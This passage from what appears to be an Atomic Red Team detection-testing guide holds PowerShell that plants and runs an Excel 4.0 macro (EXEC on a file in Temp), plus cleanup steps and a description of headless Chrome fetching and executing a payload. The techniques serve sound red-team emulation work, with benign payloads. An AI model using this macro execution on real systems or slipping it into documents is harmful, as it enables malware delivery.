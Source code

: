 ```powershell
$sheet.Cells.Item(21,1) = "=WAIT(NOW()+`"00:00:05`")"
$sheet.Cells.Item(22,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`")"
$sheet.Cells.Item(23,1) = "=HALT()"
$sheet.Cells.Item(1,1).Name = "runme"
$xlApp.Run("runme")
$xlApp.Quit()

[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlBook) | Out-Null
[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlApp) | Out-Null
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()

Remove-Variable xlBook
Remove-Variable xlApp
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "procexp*" -ErrorAction Ignore
Remove-Item "$env:TEMP\atomic_redteam_x4m_exec.vbs" -ErrorAction Ignore
Remove-Item "$env:TEMP\procexp.exe" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #7 - Headless Chrome code execution via VBA
This module uses Google Chrome combined with ScriptControl to achieve code execution. It spawns a local
webserver hosting our malicious payload. Headless Google Chrome will then reach out to this webserver
and pull down the script and execute it. By default the payload will execute calc.exe on the system.
